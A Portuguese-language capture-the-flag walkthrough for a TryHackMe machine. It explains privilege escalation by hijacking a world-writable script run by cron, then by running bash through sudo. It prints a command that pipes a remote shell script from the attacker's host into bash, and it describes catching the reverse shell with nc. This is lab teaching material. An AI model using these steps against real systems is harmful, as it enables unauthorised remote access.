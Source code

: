 🚀 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

## 🧠 Resumo: Como Escalar Privilégios para o Usuário '👑 `swagger`'

### Situação:
- Existe um arquivo chamado `📜`script.sh`` com permissão `777`:
  ```txt
  -rwxrwxrwx 1 user-`swagger` user-`swagger` 184 Jun 1 2023 `script.sh`
  ```
- Isso significa que **qualquer usuário pode ler, escrever e executar** esse arquivo.
- O **dono do arquivo é o usuário '👑 `swagger`'**, que tem mais privilégios que o usuário atual (`👤 `www-data``).

### Problema:
- Estamos logados como `👤 `www-data``, um usuário limitado.
- Executar o script manualmente com `👤 `www-data`` **não eleva os privilégios**, porque o shell reverso retornará com os mesmos direitos de `👤 `www-data``.
![image](https://github.com/user-attachments/assets/b0322b76-b96a-4585-a5cf-a485ee1183bb)
- Por exemplo nesta imagem eu escalei privilégio do meu próprio usuário e consegui, mas não saí do próprio 👤 `www-data`.

### Solução:
1. Editar o 📜 script.sh e **inserir um comando de shell reverso**, por exemplo:
   ```bash
   📡 `  curl http://192.168.100.168:8000/shell_2.sh | bash  `
   ```
2. **Esperar o cron job executá-lo automaticamente** (ele roda a cada minuto).
   - Como o script será executado pelo próprio usuário `👑 `swagger``, o shell reverso retornará com os privilégios dele.

### Conclusão:
- A escalada de privilégios acontece **não quando você executa o script manualmente**, mas quando o **cron do '👑 `swagger`' executa o script que você editou**.

---

### Agora vamos alterar o conteúdo do arquivo e colocá-lo para buscar naquele mesmo servidor Python, baixar e executar o comando do arquivo dentro do bash, enquanto escutamos do outro lado com o NC.
![image](https://github.com/user-attachments/assets/35d15a91-bf21-42f9-b622-afb6d0e2707c)
- Arquivo alterado com a shell. Agora abrimos outro terminal e escutamos na porta 4444 enquanto esperamos a atualização do comando que alteramos para enviar o cmd shell.
![image](https://github.com/user-attachments/assets/c1d126d2-8923-42f5-823d-1ac0c41a0378)

- Temos duas shells ativas agora: uma do 👤 `www-data` que era fraca e não possuía muitos privilégios, e a do 👑 `swagger` que vamos explorar ainda.
![image](https://github.com/user-attachments/assets/26fbd6bc-317c-48f5-9612-7495663d43b5)

# Depois de explorar como 👑 `swagger` Encontramos um arquivo com permissão 775 
![image](https://github.com/user-attachments/assets/f645cf56-c6ce-40f9-98a1-5fec134f9d25)

Conteúdo do .backup:
```txt
#!/bin/bash
##### Script em desenvolvimento visualizar containers ######
###########################################################
######## verificando containers em execução ###############
docker ps
a=$(`docker ps` | cut -d " " -f1 | grep -v "CONTAINER")

######################## Docker Inspect ###################
🔍 `docker inspect` $a
```
- Aparentemente tem um docker na maquina

# Escalando para 🛡️ `root`
### ✍️ Como temos permissão 775, podemos alterar o conteúdo do arquivo para "bash" e executá-lo como sudo
![image](https://github.com/user-attachments/assets/bf139977-d1f1-4cc6-8afa-4439c19f50b9)
- ⚙️ Ao executar o bash com sudo, nos tornamos root, porque o processo de bash é iniciado pelo próprio usuário que o executou.

- 🧠 Como o comando foi executado com sudo, ele roda com os privilégios de superusuário (root).

- 🛡️ Resultado: Escalada de privilégio bem-sucedida para root!

# 🖥️ `bash -li` (upgrade de shell)
![image](https://github.com/user-attachments/assets/56ab04c4-f382-4e91-a7e8-df4e53c5df1e)
Agora é só ser feliz.

🐳 `docker ps` / 🔍 `docker inspect`
![image](https://github.com/user-attachments/assets/79e11a7e-da0d-4f7b-83c3-8256d4c53299)

---
🏁 **Flag Root** 
---
![image](https://github.com/user-attachments/assets/e0610da5-e09a-459a-92a7-4b3ffba6163f)
---
![image](https://github.com/user-attachments/assets/edc189b9-5a6e-4a90-9abb-9e85ef9e8758)
---
![image](https://github.com/user-attachments/assets/9b1aa064-ce27-47f1-a1f4-7ce54265b4da)
